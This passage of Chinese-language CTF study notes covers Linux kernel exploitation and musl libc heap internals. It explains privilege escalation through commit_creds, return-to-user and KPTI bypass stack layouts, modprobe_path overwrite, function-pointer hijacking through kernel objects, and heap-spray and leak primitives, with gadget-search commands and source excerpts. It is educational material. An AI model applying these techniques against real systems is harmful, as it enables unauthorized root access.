    new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
    if (!new)
        return NULL;

    kdebug("prepare_kernel_cred() alloc %p", new);

    if (daemon)
        old = get_task_cred(daemon);
    else
        old = get_cred(&init_cred);
...

```

在`prepare_kernel_cred()`函数中，若传入的参数为NULL，则会缺省使用`init`进程的`cred`作为模板进行拷贝，**即可以直接获得一个标识着root权限的cred结构体**

在内核空间执行`commit_creds(prepare_kernel_cred(NULL))`，那么就能够将当前进程的权限提升到`root`，或者**commit_creds(&init_cred)**


编译内核模块

```makefile
obj-m += hellokernel.o
CURRENT_PATH := $(shell pwd)
LINUX_KERNEL := $(shell uname -r)
LINUX_KERNEL_PATH := /usr/src/linux-headers-$(LINUX_KERNEL)
all:
    make -C $(LINUX_KERNEL_PATH) M=$(CURRENT_PATH) modules
clean:
    make -C $(LINUX_KERNEL_PATH) M=$(CURRENT_PATH) clean
```

这个makefile的作用就是编译hello.c文件，最终生成hello.ko文件。


obj-m+=hello.o

obj-m表示编译生成可加载模块。

相对应的，obj-y表示直接将模块编译进内核。

obj-m+=hello.o，这条语句就是显式地将hello.o编译成hello.ko,而hello.o则由make的自动推导功能编译hello.c文件生成。

all，clean这一类的是makefile中的伪目标，伪目标并不是一个真正的编译目标，它代表着一系列你想要执行的命令集合，通常一个makefile会对应多个操作，例如编译，清除编译结果，安装，就可以使用这些伪目标来进行标记。


```
压缩文件系统
find . | cpio -o --format=newc > ../../rootfs.cpio
解压文件系统
cpio -idv < ./rootfs.cpio

/home/x/Kernel/linux-5.11/scripts/extract-vmlinux ./bzImage > vmlinux
/home/x/vmlinux-to-elf/vmlinux-to-elf bzImage vmlinux
```


启动kernel

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -kernel ./bzImage \
    -initrd  ./rootfs.cpio \
    -monitor /dev/null \
    -append "root=/dev/ram rdinit=/sbin/init console=ttyS0 oops=panic panic=1 loglevel=3 quiet nokaslr" \
    -cpu kvm64,+smep \
    -smp cores=2,threads=1 \
    -nographic \
    -s
```

- `-m`：虚拟机内存大小

- `-kernel`：内存镜像路径

- `-initrd`：磁盘镜像路径

- -append

  ：附加参数选项

  - `nokalsr`：关闭内核地址随机化，方便我们进行调试
  - `rdinit`：指定初始启动进程，`/sbin/init`进程会默认以 `/etc/init.d/rcS` 作为启动脚本
  - `loglevel=3 `& `quiet`：不输出log
  - `console=ttyS0`：指定终端为`/dev/ttyS0`，这样一启动就能进入终端界面

- `-monitor`：将监视器重定向到主机设备`/dev/null`，这里重定向至null主要是防止CTF中被人给偷了qemu拿flag

- `-cpu`：设置CPU安全选项，在这里开启了smep保护

- `-s`：相当于`-gdb tcp::1234`的简写


调试

```

```


```
cat /proc/iomem
cat /proc/kallsyms
cat /proc/cpuinfo
cat /proc/meminfo
cat /sys/devices/system/cpu/vulnerabilities/*
slabtop

cat /sys/module/模块名/sections/.text
```


gadget寻找

```
ROPgadget --binary ./vmlinux > gadget.txt
ropper --file ./vmlinux --nocolor > gadget2.txt

cat gadget.txt|grep "pop rdi ; ret"
cat gadget2.txt|grep "pop rdi; ret;"

objdump -d ./vmlinux > ropgadget \
cat ropgadget | grep "pop rdi; ret"

from pwn import*
elf = ELF('vmlinux')
context.arch = 'amd64'
s = asm('push rsi; pop rsp')
hex(int.from_bytes(s, byteorder='big', signed=True))
hex(elf.search(asm('iretq')).__next__())
```


在提权时，如要使用64 位的iretq指令 从内核态返回到用户态，我们首先要执行SWAPGS切换GS，然后执行iretq指令时的栈布局应该如下：

```
↓   swapgs
    iretq
    user_shell_addr
    user_cs
    user_eflags //64bit user_rflags
    user_sp
    user_ss
```

在提权时，当我们使用sysret指令从内核态中返回前，我们需要先设置rcx为用户态rip，设置r11为用户态rflags，设置rsp为一个用户态堆栈，并执行swapgs交换GS寄存器。


KPTI bypass

```
 swapgs_restore_regs_and_return_to_usermode
    0 // padding
    0 // padding
    user_shell_addr
    user_cs
    user_rflags
    user_sp
    user_ss
```

在开启 KPTI 的情况下直接返回用户态会 segmentation fault，这个时候我们可以**把原来的返回地址 getRootShell 函数设为 SIGSEGV 信号的处理函数**，这样原先的 `swapgs ; iretq` 的方法就可以继续用了。

```
#include <signal.h>
signal(SIGSEGV, get_shell);
```


`work_for_cpu_fn()` 完成利用，在开启了多核支持的内核中都有这个函数，定义于 `kernel/workqueue.c` 中：

```
struct work_for_cpu {
    struct work_struct work;
    long (*fn)(void *);
    void *arg;
    long ret;
};

static void work_for_cpu_fn(struct work_struct *work)
{
    struct work_for_cpu *wfc = container_of(work, struct work_for_cpu, work);

    wfc->ret = wfc->fn(wfc->arg);
}
```

简单分析可知该函数可以理解为如下形式：

```
static void work_for_cpu_fn(size_t * args)
{
    args[6] = ((size_t (*) (size_t)) (args[4](args[5]));
}
```

即 `rdi + 0x20` 处作为函数指针执行，参数为 `rdi + 0x28` 处值，返回值存放在 `rdi + 0x30` 处，而 `tty_operations` 上的函数指针的第一个参数大都是 `tty_struct` ，由此可以**很方便地分次执行 prepare_kernel_cred 和 commit_creds，且不用考虑 KPTI 绕过，直接普通地返回用户态便能完成稳定化提权**


 user_key_payload 越界读泄露内核基地址

0xe0

```c
struct callback_head {
	struct callback_head *next;
	void (*func)(struct callback_head *head);
} __attribute__((aligned(sizeof(void *))));
#define rcu_head callback_head

struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __aligned(__alignof__(u64)); /* actual data */
};
```

`sys_keyctl`中有一个 `KEYCTL_REVOKE `，它用于取消一个密钥。内核中，对应的处理流程是`_x64_sys_keyctl() -> keyctl_revoke_key() -> key_revoke() -> user_revoke() -> call_rcu()`，在`call_rcu()`函数中将 `user_key_payload` 结构体的 `rcu.func` 设置成`user_free_payload_rcu()`函数的地址

注意：description，如果和先前的相同，会将先前的释放掉，使用next连接。


在内核中，管道本质上是创建了一个**虚拟的 inode** 来表示的，对应的就是一个 `pipe_inode_info` 结构体：

0xe0

```c
struct pipe_inode_info {
	struct mutex mutex;
	wait_queue_head_t rd_wait, wr_wait;
	unsigned int head;
	unsigned int tail;
	unsigned int max_usage;
	unsigned int ring_size;
#ifdef CONFIG_WATCH_QUEUE
	bool note_loss;
#endif
	unsigned int nr_accounted;
	unsigned int readers;
	unsigned int writers;
	unsigned int files;
	unsigned int r_counter;
	unsigned int w_counter;
	struct page *tmp_page;
	struct fasync_struct *fasync_readers;
	struct fasync_struct *fasync_writers;
	struct pipe_buffer *bufs;
	struct user_struct *user;
#ifdef CONFIG_WATCH_QUEUE
	struct watch_queue *watch_queue;
#endif
};
```

同时内核中会分配一个 `pipe_buffer` 结构体数组，每个 `pipe_buffer` 结构体对应一张用以存储数据的内存页：

0x400

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

`pipe_buf_operations` 为一张函数表，当我们对管道进行特定操作时内核便会调用该表上对应的函数，例如当我们关闭了管道的两端时，会触发 `pipe_buffer->pipe_buffer_operations->release` 这一指针，由此我们便能控制内核执行流，从而完成提权


```c
struct pipe_buf_operations {
	int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);  //注意rsi
	bool (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);
	bool (*get)(struct pipe_inode_info *, struct pipe_buffer *);
};

```


在内核“堆基址”（`page_offset_base`） + `0x9d000` 处存放着 `secondary_startup_64` 函数的地址，而我们可以从 free object 的 next 指针获得一个堆上地址，从而去猜测堆的基址，之后分配到一个 `堆基址 + 0x9d000` 处的 object 以泄露内核基址


覆写 `modprobe_path` 从而以 root 执行程序

当我们尝试去执行（execve）一个非法的文件（file magic not found），内核会经历如下调用链：

```
entry_SYSCALL_64()
    sys_execve()
        do_execve()
            do_execveat_common()
                bprm_execve()
                    exec_binprm()
                        search_binary_handler()
                            __request_module() // wrapped as request_module
                                call_modprobe()
```

其中 `call_modprobe()` 定义于 `kernel/kmod.c`，我们主要关注这部分代码（以下来着内核源码5.14）：

```
static int call_modprobe(char *module_name, int wait)
{
	//...
	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
	//...
```

在这里调用了函数 `call_usermodehelper_exec()` 将 `modprobe_path` 作为可执行文件路径以 root 权限将其执行，这个地址上默认存储的值为`/sbin/modprobe`

若是能够劫持 modprobe_path，将其改写为我们指定的恶意脚本的路径，随后我们再执行一个非法文件，**内核将会以 root 权限执行我们的恶意脚本**

若设置`CONFIG_STATIC_USERMODEHELPER`则该方法不再适用；


**seq_operations** 这个结构体同样从 `kmalloc-32` 中分配，当我们打开一个 stat 文件时（如 `/proc/self/stat` ）便会在内核空间中分配一个 seq_operations 结构体，该结构体定义于 `/include/linux/seq_file.h` 当中，只定义了四个函数指针，如下：

0x20

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

当我们 read 一个 stat 文件时，内核会调用其 proc_ops 的 `proc_read_iter` 指针，其默认值为 `seq_read_iter()` 函数，定义于 `fs/seq_file.c` 中，注意到有如下逻辑：

```c
ssize_t seq_read_iter(struct kiocb *iocb, struct iov_iter *iter)
{
	struct seq_file *m = iocb->ki_filp->private_data;
	//...
	p = m->op->start(m, &m->index);
	//...
```

即其会调用 seq_operations 中的 start 函数指针，那么**我们只需要控制 seq_operations->start 后再读取对应 stat 文件便能控制内核执行流**

注意：最后执行的rax


pt_regs 结构体

```
__asm__(
    "mov r15,   0xbeefdead;"
    "mov r14,   0x11111111;"
    "mov r13,   0x22222222;"
    "mov r12,   0x33333333;"
    "mov rbp,   0x44444444;"
    "mov rbx,   0x55555555;"
    "mov r11,   0x66666666;"
    "mov r10,   0x77777777;"
    "mov r9,    0x88888888;"
    "mov r8,    0x99999999;"
    "xor rax,   rax;"
    "mov rcx,   0xaaaaaaaa;"
    "mov rdx,   8;"
    "mov rsi,   rsp;"
    "mov rdi,   seq_fd;"
    "syscall"
);
```


modify_ldt 系统调用


ldt 即**局部段描述符表**（**Local Descriptor Table**），其中存放着**进程的**段描述符，段寄存器当中存放着的段选择子便是段描述符表中段描述符的索引，在内核中与 ldt 相关联的结构体为 `ldt_struct` ，该结构体定义如下， `entries` 指针指向一块描述符表的内存，`nr_entries` 表示 LDT 中的描述符数量：

kmalloc-16(slub)/kmalloc-32(slab)

```
struct ldt_struct {
    struct desc_struct    *entries;
    unsigned int        nr_entries;
    int            slot;
};
```


Linux 提供给我们一个叫 `modify_ldt` 的系统调用，通过该系统调用我们可以**获取或修改当前进程的 LDT**

我们来看一下在内核中这个系统调用是如何操纵 ldt 的，该系统调用定义于 `/arch/x86/kernel/ldt.c` 中，如下：

```c
SYSCALL_DEFINE3(modify_ldt, int , func , void __user * , ptr ,
        unsigned long , bytecount)
{
    int ret = -ENOSYS;

    switch (func) {
    case 0:
        ret = read_ldt(ptr, bytecount);
        break;
    case 1:
        ret = write_ldt(ptr, bytecount, 1);
        break;
    case 2:
        ret = read_default_ldt(ptr, bytecount);
        break;
    case 0x11:
        ret = write_ldt(ptr, bytecount, 0);
        break;
    }
    /*
     * The SYSCALL_DEFINE() macros give us an 'unsigned long'
     * return type, but tht ABI for sys_modify_ldt() expects
     * 'int'.  This cast gives us an int-sized value in %rax
     * for the return code.  The 'unsigned' is necessary so
     * the compiler does not try to sign-extend the negative
     * return codes into the high half of the register when
     * taking the value from int->long.
     */
    return (unsigned int)ret;
}
```

我们应当传入三个参数：func、ptr、bytecount，其中 ptr 应为指向 `user_desc` 结构体的指针，参照 man page 可知该结构体如下：

```c
struct user_desc {
    unsigned int  entry_number;
    unsigned int  base_addr;
    unsigned int  limit;
    unsigned int  seg_32bit:1;
    unsigned int  contents:2;
    unsigned int  read_exec_only:1;
    unsigned int  limit_in_pages:1;
    unsigned int  seg_not_present:1;
    unsigned int  useable:1;
};
```

 read_ldt()：内核任意地址读

定义于 `/arch/x86/kernel/ldt.c`中，我们主要关注如下逻辑：

```
static int read_ldt(void __user *ptr, unsigned long bytecount)
{
//...
    if (copy_to_user(ptr, mm->context.ldt->entries, entries_size)) {
        retval = -EFAULT;
        goto out_unlock;
    }
//...
out_unlock:
    up_read(&mm->context.ldt_usr_sem);
    return retval;
}
```

用到 `copy_to_user()` 的一个特性：对于非法地址，其**并不会造成 kernel panic，只会返回一个非零的错误码**，我们不难想到的是，我们可以多次修改 ldt->entries 并多次调用 modify_ldt() 以**爆破内核 .text 段地址与 page_offset_base**，若是成功命中，则 modify_ldt 会返回给我们一个非负值。

由于 `Hardened usercopy` 的存在，对于直接拷贝代码段上数据的行为会导致 kernel panic，因此现实场景中我们很难直接爆破代码段加载基地址，但是**在 page_offset_base + 0x9d000 的地方存储着 secondary_startup_64 函数的地址**，因此我们可以直接将 `ldt_struct->entries` 设为 `page_offset_base + 0x9d000` 之后再通过 `read_ldt()` 进行读取即可泄露出内核代码段基地址。

虽然在用户空间与内核空间之间的数据拷贝存在 hardened usercopy，**但是在内核空间到内核空间的数据拷贝间并不存在类似的保护机制**，因此我们可以通过一些手段绕过 hardended usercopy

当进程调用 `fork()` 时，内核会通过 `memcpy()` 将父进程的 `ldt->entries` 上的内容拷贝给子进程：

```
/*
 * Called on fork from arch_dup_mmap(). Just copy the current LDT state,
 * the new task is not running, so nothing can be installed.
 */
int ldt_dup_context(struct mm_struct *old_mm, struct mm_struct *mm)
{
    //...

    memcpy(new_ldt->entries, old_mm->context.ldt->entries,
           new_ldt->nr_entries * LDT_ENTRY_SIZE);

       //...
}
```

该操作**是完全处在内核中的操作**，因此不会触发 hardened usercopy 的检查，我们只需要在父进程中设定好搜索的地址之后再开子进程来用 read_ldt() 读取数据即可


setxattr 是一个十分独特的系统调用族，抛开其本身的功能，在 kernel 的利用当中他可以为我们提供**近乎任意大小的内核空间 object 分配**

观察 setxattr 源码，发现如下调用链：

```
SYS_setxattr()
    path_setxattr()
        setxattr()
```

在 `setxattr()` 函数中有如下逻辑：

```
static long
setxattr(struct dentry *d, const char __user *name, const void __user *value,
     size_t size, int flags)
{
    //...
        kvalue = kvmalloc(size, GFP_KERNEL);
        if (!kvalue)
            return -ENOMEM;
        if (copy_from_user(kvalue, value, size)) {

    //,..

    kvfree(kvalue);

    return error;
}
```

这里的 value 和 size 都是由我们来指定的，即**我们可以分配任意大小的 object 并向其中写入内容**

但是该 object 在 setxattr 执行结束时又会被放回 freelist 中，设想若是我们需要劫持该 object 的前 8 字节，那将前功尽弃

重新考虑 setxattr 的执行流程，其中会调用 `copy_from_user` 从用户空间拷贝数据，那么让我们考虑如下场景：

我们通过 mmap 分配连续的两个页面，在第二个页面上启用 userfaultfd，并在第一个页面的末尾写入我们想要的数据，此时我们调用 setxattr 进行**跨页面的拷贝**，当 copy_from_user 拷贝到第二个页面时**便会触发 userfaultfd，从而让 setxattr 的执行流程卡在此处，这样这个 object 就不会被释放掉，而是可以继续参与我们接下来的利用**

注意：一定要将所有的userfaultfd先配置好


泄露内核基址：shm_file_data

该结构体定义于 `/ipc/shm.c` 中， 从kmallc-32中分配,如下：

```
struct shm_file_data {
    int id;
    struct ipc_namespace *ns;
    struct file *file;
    const struct vm_operations_struct *vm_ops;
};
```

shm_file_data 的 ns 域 和 vm_ops 域皆指向内核的 .text 段中，若是我们能够泄露这两个指针便能获取到内核 .text 段基址，其中 ns 字段通常指向 `init_ipc_ns`


在 Linux kernel 中有着一组 system V 消息队列相关的系统调用：

- msgget：创建一个消息队列
- msgsnd：向指定消息队列发送消息
- msgrcv：从指定消息队列接接收消息

当我们创建一个消息队列时，在内核空间中会创建一个 `msg_queue` 结构体，其表示一个消息队列：

```
/* one msq_queue structure for each present queue on the system */
struct msg_queue {
	struct kern_ipc_perm q_perm;
	time64_t q_stime;		/* last msgsnd time */
	time64_t q_rtime;		/* last msgrcv time */
	time64_t q_ctime;		/* last change time */
	unsigned long q_cbytes;		/* current number of bytes on queue */
	unsigned long q_qnum;		/* number of messages in queue */
	unsigned long q_qbytes;		/* max number of bytes on queue */
	struct pid *q_lspid;		/* pid of last msgsnd */
	struct pid *q_lrpid;		/* last receive pid */

	struct list_head q_messages;
	struct list_head q_receivers;
	struct list_head q_senders;
} __randomize_layout;
```


当我们调用 msgsnd 系统调用在指定消息队列上发送一条指定大小的 message 时，在内核空间中会创建这样一个结构体：

```
/* one msg_msg structure for each message */
struct msg_msg {
	struct list_head m_list;
	long m_type;		
	size_t m_ts;		/* message text size */
	struct msg_msgseg *next;
	void *security;
	/* the actual message follows immediately */
};
```

注意m_type存在值，否则会失败


timerfd_ctx

```
#include <sys/timerfd.h>

struct itimerspec timespec = {{0, 0}, {100, 0}};
int tfd = timerfd_create(CLOCK_REALTIME, 0);
timerfd_settime(tfd, 0, &timespec, 0);
```

内核中调用到 timerfd_create 系统调用处理函数，为 struct timerfd_ctx 申请一段内存空间（0xf0字节大小，对应kmalloc-256）。

```c
struct timerfd_ctx {
	union {
		struct hrtimer tmr;
		struct alarm alarm;
	} t;
	ktime_t tintv;
	ktime_t moffs;
	wait_queue_head_t wqh;
	u64 ticks;
	int clockid;
	short unsigned expired;
	short unsigned settime_flags;	/* to show in fdinfo */
	struct rcu_head rcu;
	struct list_head clist;
	spinlock_t cancel_lock;
	bool might_cancel;
};
struct hrtimer {
	struct timerqueue_node		node;
	ktime_t				_softexpires;
	enum hrtimer_restart		(*function)(struct hrtimer *);
	struct hrtimer_clock_base	*base;
	u8				state;
	u8				is_rel;
	u8				is_soft;
	u8				is_hard;
};
```


- 可泄露内核地址信息：`t.tmr.function`（在`timerfd_ctx`中偏移0x28位置）
- 可泄露堆地址信息：`t.tmr.base`（在`timerfd_ctx`中偏移0x30位置），以及偏移0xa8和0xb0处的list_head链表结构


## musl pwn


### 1.1.24


```c
struct chunk {
    size_t psize, csize; // 相当于 glibc 的 prev size 和 size，prev size不可复用
    struct chunk *next, *prev;
};
//psize和csize字段都有标志位，但只有一种位于最低位的标志位INUSE。若设置INUSE标志位（最低位为1），表示 chunk 正在被使用；若没有设置INUSE标志位（最低位为0），表示 chunk 已经被释放或者通过mmap分配的，需要通过psize的标志位来进一步判断 chunk 的状态。
//chunk大小 32位对齐

struct bin {
    volatile int lock[2];
    struct chunk *head;
    struct chunk *tail;
};
//head和tail指针分别指向首部和尾部的 chunk，同时首部 chunk 的prev指针和尾部 chunk 的next指针指向 bin 链表头部，这样构成了循环链表。当链表为空时，head和tail指针等于 0 或者指向链表头部自身。

static struct {
    volatile uint64_t binmap;	//标识相应的bin是否为空
    struct bin bins[64];		//类似glibc的bin
    volatile int free_lock[2];
} mal;

p mal.bins
```


malloc 详细步骤：

1. 调整 `n`，增加头部长度和对齐 32 位。
2. 如果 `n > MMAP_THRESHOLD`，使用 `mmap` 创建一块大小为 `n` 的内存，返回给用户。
3. 如果n <= MMAP_THRESHOLD，计算n对应的 bin 下标i，查找 binmap。
4. 如果所有的可用 bin 均为空，延展堆空间，生成一个新的 chunk
5. 如果存在非空的可用 bin，选择大小最接近n的 bin，得到 bin 链表首部的 chunk
6. 如果符合 `pretrim` 条件，使用 `pretrim` 分割 （作用是切割大 chunk，防止把大小超过需求的 chunk 分配给用户。当满足一定条件时，`pretrim`从 bin 链表首部 chunk 切割出一块大小刚好符合需求的小 chunk，然后将小 chunk 分配给用户，链表首部 chunk 的位置保持不变）
7. 否则使用 `unbin` 从链表中取出chunk。
8. 最后对 chunk 进行 `trim`，返回给用户（主要作用是回收 chunk 超过需求大小的部分。`trim`将 chunk 多余的部分切割出来，然后将其释放到 bin 中，减少内存浪费）


```c
static void unbin(struct chunk *c, int i)
{
    // 若 bin 只有一个 chunk，将 bin 设为空 bin
    if (c->prev == c->next)
        a_and_64(&mal.binmap, ~(1ULL<<i));
    // 取出链表中的 chunk
    c->prev->next = c->next;
    c->next->prev = c->prev;
    // 设置 INUSE 标志位
    c->csize |= C_INUSE;
    NEXT_CHUNK(c)->psize |= C_INUSE;
}
```


free 的步骤：

1. 先对 chunk 进行 mmap / double free 检查。如果 chunk 的`csize`字段没有设置`INUSE`标志位，进入`unmap_chunk`函数检查`psize`字段。如果`psize`字段设置了`INUSE`标志位，视为 double free，crash；否则视为 mmap chunk，调用`__munmap`函数释放。
2. 最后合并 chunk 前后的空闲 chunk、设置 binmap 和 chunk 标志位，最后将 chunk 插入到对应的 bin 链表中。
3. chunk的插入bin中是尾插法，分配时是寻找bin的next，先进先出。


```
pwndbg> p *stdin
$4 = {
  flags = 73,
  rpos = 0x0,
  rend = 0x0,
  close = 0x7f579424962a <__stdio_close>,
  wend = 0x0,
  wpos = 0x0,
  mustbezero_1 = 0x0,
  wbase = 0x0,
  read = 0x7f57942496de <__stdio_read>,
  write = 0x0,
  seek = 0x7f5794249798 <__stdio_seek>,
  buf = 0x7f5794295568 <buf+8> "",
  buf_size = 0,
  prev = 0x0,
  next = 0x0,
  fd = 0,
  pipe_pid = 0,
  lockcount = 0,
  mode = 0,
  lock = -1,
  lbf = -1,
  cookie = 0x0,
  off = 0,
  getln_buf = 0x0,
  mustbezero_2 = 0x0,
  shend = 0x0,
  shlim = 0,
  shcnt = 0,
  prev_locked = 0x0,
  next_locked = 0x0,
  locale = 0x0
}
//musl libc版 _IO_FILE结构体没有专门的 vtable，只有四个函数指针close、read、write和seek且分布在结构体中的不同位置

pwndbg> x/20gx &__stdin_FILE
0x7f5794294200 <__stdin_FILE>:		0x0000000000000049	0x0000000000000000
0x7f5794294210 <__stdin_FILE+16>:	0x0000000000000000	0x00007f579424962a
0x7f5794294220 <__stdin_FILE+32>:	0x0000000000000000	0x0000000000000000
0x7f5794294230 <__stdin_FILE+48>:	0x0000000000000000	0x0000000000000000
0x7f5794294240 <__stdin_FILE+64>:	0x00007f57942496de	0x0000000000000000
0x7f5794294250 <__stdin_FILE+80>:	0x00007f5794249798	0x00007f5794295568
0x7f5794294260 <__stdin_FILE+96>:	0x0000000000000000	0x0000000000000000
0x7f5794294270 <__stdin_FILE+112>:	0x0000000000000000	0x0000000000000000
0x7f5794294280 <__stdin_FILE+128>:	0x0000000000000000	0xffffffff00000000
0x7f5794294290 <__stdin_FILE+144>:	0x00000000ffffffff	0x0000000000000000
0x7f57942942a0 <__stdin_FILE+160>:	0x0000000000000000	0x0000000000000000
0x7f57942942b0 <__stdin_FILE+176>:	0x0000000000000000	0x0000000000000000
0x7f57942942c0 <__stdin_FILE+192>:	0x0000000000000000	0x0000000000000000
0x7f57942942d0 <__stdin_FILE+208>:	0x0000000000000000	0x0000000000000000
0x7f57942942e0 <__stdin_FILE+224>:	0x0000000000000000	0x0000000000000000

```


```c
_Noreturn void exit(int code)
{
    __funcs_on_exit();
    __libc_exit_fini();
    __stdio_exit();  <---
    _Exit(code);
}
// src/stdio/__stdio_exit.c L16-L23
void __stdio_exit(void)
{
    FILE *f;
    for (f=*__ofl_lock(); f; f=f->next) close_file(f);
    close_file(__stdin_used);  <---
    close_file(__stdout_used);
    close_file(__stderr_used);
}
// src/stdio/__stdio_exit.c L8-L14
static void close_file(FILE *f)
{
    if (!f) return;
    FFINALLOCK(f);
    if (f->wpos != f->wbase) f->write(f, 0, 0);  <---
    if (f->rpos != f->rend) f->seek(f, f->rpos-f->rend, SEEK_CUR);
}
```

`exit`函数后来调用`__stdio_exit`函数来关闭所有打开的文件流。在`close_file`函数中，如果文件流`f`符合条件`f->wpos != f->wbase`，则调用`f`文件结构体上的`write`函数指针：`f->write(f, 0, 0)`。


```
gadget
mov rdx, QWORD PTR [rdi+0x30]; mov rsp, rdx; mov rdx, QWORD PTR [rdi+0x38]; jmp  rdx
```


### 1.2.2

```c
struct chunk{
 char prev_user_data[];
    uint8_t idx;  //第5bit为idx第几个chunk
    uint16_t offset; //与第一个chunk起始地址的偏移，实际地址偏移为offset * UNIT,详细请看get_meta源码中得到group地址的而过程！
    char data[];
};
//每个chunk都有个4字节的chunk头记录idx和offset(第一个chunk 比较特殊，因为它上面是 group结构 + chunk 头=0x10 )
//与glibc一样，chunk可以复用下一个chunk低4字节

#define UNIT 16
#define IB 4
struct group {
    struct meta *meta;	//存meta地址
    unsigned char active_idx:5;	//存最多可用的chunk数目
    char pad[UNIT - sizeof(struct meta *) - 1];//padding=0x10B
    unsigned char storage[];// chunks
};
//同一类大小的chunk 都是被分配到 同一个group 中进行管理

struct meta {
    struct meta *prev, *next;//双向链表
    struct group *mem;// 指向管理的group 地址
    volatile int avail_mask, freed_mask;  
    uintptr_t last_idx:5; //存最多可用的chunk数目 （+1）
    uintptr_t freeable:1; //代表meta否可以被回收 freeable=0 代表不可以、=1 代表可以
    uintptr_t sizeclass:6; // 这个group进行管理这一类的大小的chunk，与size_classes数组对应
    uintptr_t maplen:8*sizeof(uintptr_t)-12; //maplen =0 表示group 不是新mmap 出来的在size_classes里
};
//在avail_mask、freed_mask中每一位(二进制)表示chunk的分配情况; avail_mask的0表示不可分配,1表示可分配,free_mask 中的 1 表示已经被释放

const uint16_t size_classes[] = {
    1, 2, 3, 4, 5, 6, 7, 8,
    9, 10, 12, 15,
    18, 20, 25, 31,
    36, 42, 50, 63,
    72, 84, 102, 127,
    146, 170, 204, 255,
    292, 340, 409, 511,
    584, 682, 818, 1023,
    1169, 1364, 1637, 2047,
    2340, 2730, 3276, 4095,
    4680, 5460, 6552, 8191,
};

struct meta_area {
    uint64_t check;	//是个校验数字保护meta_area 里的meta
    struct meta_area *next; //meta 槽的数量
    int nslots;
    struct meta slots[];
};
//meta_area是管理meta的合集，meta_area 以页为单位分配

struct malloc_context {
    uint64_t secret;// 和meta_area 头的check 是同一个值 就是校验值
#ifndef PAGESIZE
    size_t pagesize;
#endif
    int init_done;//是否初始化标记
    unsigned mmap_counter;// 记录有多少mmap 的内存的数量
    struct meta *free_meta_head;// 被free 的meta 头 这里meta 管理使用了队列和双向循环链表
    struct meta *avail_meta;//指向可用meta数组
    size_t avail_meta_count, avail_meta_area_count, meta_alloc_shift;
    struct meta_area *meta_area_head, *meta_area_tail;
    unsigned char *avail_meta_areas;
    struct meta *active[48];// 记录着可用的meta
    size_t u sage_by_class[48];
    uint8_t unmap_seq[32], bounces[32];
    uint8_t seq;
    uintptr_t brk;
};
```


malloc 的流程:

**一、**判断是否超过size 阈值

- 先检查 申请的chunk的 needed size 是否超过最大申请限制
- 检查申请的needed 是否超过需要mmap 的分配的阈值 超过就用mmap 分配一个group 来给chunk使用
- 若是mmap 则设置各种标记

**二、**分配chunk

1. 若申请的chunk 没超过阈值 就从active 队列找管理对应size大小的meta
2. 关于找对应size的meta 这里有两种情况:

- 如果active 对应size的meta 位置上为空，没找到那么尝试先找size更大的meta

- 如果active 对应size的meta位置上有对应的meta，尝试从这个meta中的group找到可用的chunk(这里malloc 那个循环:`for (;;)`

  - 如果通过循环里，通过meta->avail_mask 判断当前group 中是否有空闲chunk

    - 有，就直接修改meta->avail_mask，然后利用enframe(g, idx, n, ctr);// 从对应meta 中的group 取出 第idx号chunk分配
    - 无，break 跳出循环
  
  - 跳出循环后执行 idx = alloc_slot(sc, n);

    alloc_slot

    有三种分配方式

    - **使用group中被free的chunk**
    - **从队列中其他meta的group 中找**
    - 如果都不行就重新分配一个新的group 对应一个新的meta
  
   3.enframe(g, idx, n, ctr) 取出 对应meta 中对应idx 的chunk

**注意：刚释放的chunk不会被立刻使用**：

- 在同一的group中，如果avail_mask不为0，如果释放一个该group中的chunk，接下来申请chunk也只会优先申请那些被avail_mask标识的，而不会去使用刚释放的；
- 如果avail_mask 为0，就会去找meta->next所指向的meta，调用activate_group函数更新下一个meta的avail_mask，接着去使用下一个meta中的chunk，同时将下一个meta更新为链表头，本身则插入链表尾。


free 的流程

1. 通过get_meta(p)得到meta (get_meta 是通过chunk 对应的offset 索引到对应的group 再索引到meta) 
2.  通过get_slot_index(p)得到对应chunk的 idx ，通过get_nominal_size(p, end) 算出真实大小
3.  重置idx 和 offset idx 被置为``0xff` `标记chunk
4.  修改freed_mask 标记chunk被释放
5.  最后调用nontrivial_free 完成关于meta一些剩余操作 (注意进入nontrivial_free 是在``for``循环外 还未设置)


dequeue：一个meta的unlink的过程

```c
static inline void dequeue(struct meta **phead, struct meta *m)
{
    if (m->next != m) {
        m->prev->next = m->next; // 这里存在指针互写 在 prev 所指地址上 写入next 指针
        m->next->prev = m->prev; // 在next 所指地址上 写入prev 指针
        if (*phead == m) *phead = m->next;// 队列头如果为m 那就更新为m->next
    } else {
        *phead = 0;
    }
    m->prev = m->next = 0; // 清理m(meta)的头尾指针
}
```

**dequeue** 触发条件

avail_mask 表示只有一个chunk 被使用 ,freed_mask=0，而free 刚好要free 一个chunk；

avail_mask=0, freed_mask 表示只有 1个 chunk 没被 释放，这时释放的chunk 就应该是那最后一个chunk；

avail_mask=0, freed_mask = 0，且继续申请该大小的chunk，这时就会unlink此meta，使用新的meta分配（一般不去使用该方式去攻击）。


queue：一个meta的link的过程

```c
static inline void queue(struct meta **phead, struct meta *m)
{
	assert(!m->next);
	assert(!m->prev);
	if (*phead) {
		struct meta *head = *phead;
		m->next = head;
		m->prev = head->prev;
		m->next->prev = m->prev->next = m;
	} else {
		m->prev = m->next = m;
		*phead = m;
	}
}
```

**queue** 触发条件

avail_mask=0, freed_mask = 0，释放其中的一个chunk（当然该meta已经是unlink的）


